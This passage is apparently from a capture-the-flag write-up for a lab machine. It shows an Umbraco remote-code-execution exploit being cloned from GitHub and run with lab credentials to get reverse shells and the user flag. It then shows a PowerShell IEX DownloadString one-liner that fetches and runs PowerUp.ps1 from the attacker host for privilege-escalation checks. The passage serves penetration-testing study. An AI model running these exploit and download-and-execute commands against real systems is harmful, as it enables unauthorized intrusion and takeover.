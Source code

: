 Jonoans’ exploit has been chosen and downloaded from github as per commands
below.

root\@lifesfun:\~\# git clone https://github.com/Jonoans/Umbraco-RCE.git

Cloning into 'Umbraco-RCE'...

remote: Enumerating objects: 29, done.

remote: Counting objects: 100% (29/29), done.

remote: Compressing objects: 100% (20/20), done.

remote: Total 29 (delta 13), reused 23 (delta 7), pack-reused 0

Unpacking objects: 100% (29/29), 14.54 KiB \| 465.00 KiB/s, done.

root\@lifesfun:\~\# pip3 install -r requirements.txt

After all of the requirements have been installed, the exploit is ran, the
reverse shell has been established and the user flag obtained.

root\@lifesfun:\~\# python3 exploit.py -u admin\@htb.local -p baconandcheese -w
'http://10.10.10.180/' -i 10.10.14.224

[+] Trying to bind to 0.0.0.0 on port 4444: Done

[+] Waiting for connections on 0.0.0.0:4444: Got connection from 10.10.10.180 on
port 49697

[+] Trying to bind to 0.0.0.0 on port 4445: Donewi

[+] Waiting for connections on 0.0.0.0:4445: Got connection from 10.10.10.180 on
port 49698

[\*] Switching to interactive mode

PS C:\\windows\\system32\\inetsrv\> type C:\\Users\\Public\\user.txt

Privilege Escalation
--------------------

For privilege escalation PowerUp, a script written by HarmJ0y, is used for quick
enumeration of some easy vectors. It presents us a service with weak
permissions.

PS C:\\windows\\system32\\inetsrv\> IEX (New-Object
Net.WebClient).DownloadString('http://10.10.14.224/PowerUp.ps1')

PS C:\\windows\\system32\\inetsrv\> Invoke-AllChecks

[\*] Running Invoke-AllChecks

[\*] Checking if user is in a local group with administrative privileges...

[\*] Checking for unquoted service paths...

[\*] Checking service executable permissions...

[\*] Checking service permissions...

[\*] Use 'Invoke-ServiceUserAdd -ServiceName SVC' or 'Invoke-ServiceCMD' to
abuse
